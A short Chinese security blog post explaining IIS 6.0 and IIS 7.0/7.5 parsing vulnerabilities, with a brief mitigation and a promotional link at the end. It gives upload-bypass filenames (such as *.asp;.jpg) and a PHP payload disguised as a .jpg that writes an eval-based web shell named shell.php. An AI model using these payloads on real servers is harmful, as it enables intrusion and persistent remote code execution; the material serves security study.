 

IIS6.0漏洞

--------



###     解析漏洞



1、在网站目录中如果存在名为\*.asp、\*.asa、\*.cer、\*.cdx的目录，那该目录内的任何文件都会被[IIS](https://so.csdn.net/so/search?q=IIS&spm=1001.2101.3001.7020)解析为asp文件并执行。



2、在上传图片木马的时候，将文件名改为件文件都\*.asp;.jpg、\*.asa;.jpg、\*.cer;.jpg ，该文件被IIS解析为asp文件并执行。



注：IIS6.0对域后缀是asp、asa、cer的文件都当成是asp文件执行，对于cdx后缀的文件动作是下载



IIS7.0/7.5漏洞

------------



###     畸形解析漏洞



在IIS7.0、IIS7.5中，在默认Fast-CGI开启状况下，新建一个1.txt文件，内容为<?php fputs(fopen('shell.php','w'),'<?php @eval($\_POST\['xie'\])?>')?>，将文件保存成1.jpg格式，上传到服务器，假设上传路径为/upload，上传成功后，直接访问/upload/1.jpg，此时神奇的畸形解析开始发挥作用啦，我们会神奇的发现/upload目录下创建了一个一句话木马文件shell.php。



临时解决办法：关闭cgi.fix\_pathinfo为0



 如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！[知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具](https://wx.zsxq.com/dweb2/index/group/88514121251242 "知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具")



![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)